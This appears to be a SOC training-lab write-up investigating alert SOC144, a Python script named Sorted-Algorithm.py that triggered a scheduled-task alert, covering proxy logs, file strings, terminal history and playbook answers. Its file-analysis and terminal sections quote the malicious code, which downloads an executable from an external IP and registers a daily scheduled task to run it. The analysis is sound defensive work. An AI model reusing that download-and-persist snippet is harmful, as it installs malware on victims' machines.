




# SOC144 – New Scheduled Task Created

## 1. Alert Overview

| Field | Details |
|---|---|
| Event ID | 91 |
| Event Time | 2021-05-14 15:22:22 UTC+03:00 |
| Alert Rule | SOC144 – New Scheduled Task Created |
| Alert Type | Malware |
| Difficulty | Medium |
| Hostname | Helena |
| Source IP | `172.16.17.36` |
| File Name | `Sorted-Algorithm.py` |
| File MD5 | `65d880c7f474720dafb84c1e93c51e11` |
| File Size | 1.16 KB |
| Device Action | Allowed |
| MITRE ATT&CK | T1204 – User Execution |
| Final Verdict | True Positive |

## 2. Proxy Log Investigation





The Proxy logs showed access to GitHub resources associated with the `Sorted-Algorithm` repository. The logs also recorded an outbound connection from `172.16.17.36` to `92.27.116.104` over port `80`.

The raw log for the connection to `92.27.116.104` was empty, so it did not independently reveal the requested URL or transferred content.

## 3. File Analysis



The extracted strings from `Sorted-Algorithm.py` revealed code attempting to download an executable and create a scheduled task:

```python
urllib.request.urlretrieve(
    "http://92.27.116.104/",
    "C:/Windows/Temp/x86_x64_setup.exe"
)

os.system(
    'SCHTASKS /CREATE /SC DAILY /TN "DailyRoutine" '
    '/TR "C:/Windows/Temp/x86_x64_setup.exe" /ST 11:00'
)
```

The script attempts to download a file from `92.27.116.104` and save it as `x86_x64_setup.exe` in the Windows Temp directory. It then attempts to create a scheduled task named `DailyRoutine`, configured to run daily at 11:00 and launch the downloaded executable.

This behavior is suspicious because it combines downloading an executable from an external IP address with recurring scheduled execution, which can be used to maintain persistence.

## 4. Terminal History Investigation



The terminal history showed the following commands:

```text
14.05.2021 15:22
python.exe C:/Users/Helena/Downloads/Sorted-Algorithm.py

14.05.2021 15:23
SCHTASKS /CREATE /SC DAILY /TN DailyRoutine /TR C:/Windows/Temp/x86_x64_setup.exe
```

These entries support that the Python script was executed and that a command to create the `DailyRoutine` scheduled task was issued shortly afterward.

The history does not independently confirm that the executable download completed successfully or that the scheduled task subsequently ran.

## 5. Playbook Results

| Playbook Question | Answer | Findings |
|---|---|---|
| Define Threat Indicator | Unknown or unexpected outgoing internet traffic | The host made an outbound connection to an external IP referenced in the script's download URL. |
| Check if the malware is quarantined/cleaned | Not Quarantined | The recorded Device Action was `Allowed`. |
| Analyze Malware | Malicious | The script attempts to download an executable and create a recurring scheduled task. |
| Check If Someone Requested the C2 | Accessed | The Proxy log showed outbound traffic to `92.27.116.104`, the same IP referenced in the script's download URL. |
| Final Verdict | True Positive | The script behavior, terminal history, and Proxy evidence support the alert. |

## 6. Final Assessment

The investigation identified a Python script that attempts to download an executable from `92.27.116.104` and configure a daily scheduled task named `DailyRoutine` to run it.

The terminal history corroborated execution of the Python script and a subsequent scheduled-task creation command. The Proxy log also recorded outbound traffic to the same IP address embedded in the download URL.

The evidence supports the lab's **True Positive** verdict and expected `Accessed` response. However, successful download, subsequent execution of the downloaded executable, and execution of the scheduled task on a later schedule were not independently confirmed.

**Final Verdict: True Positive.**
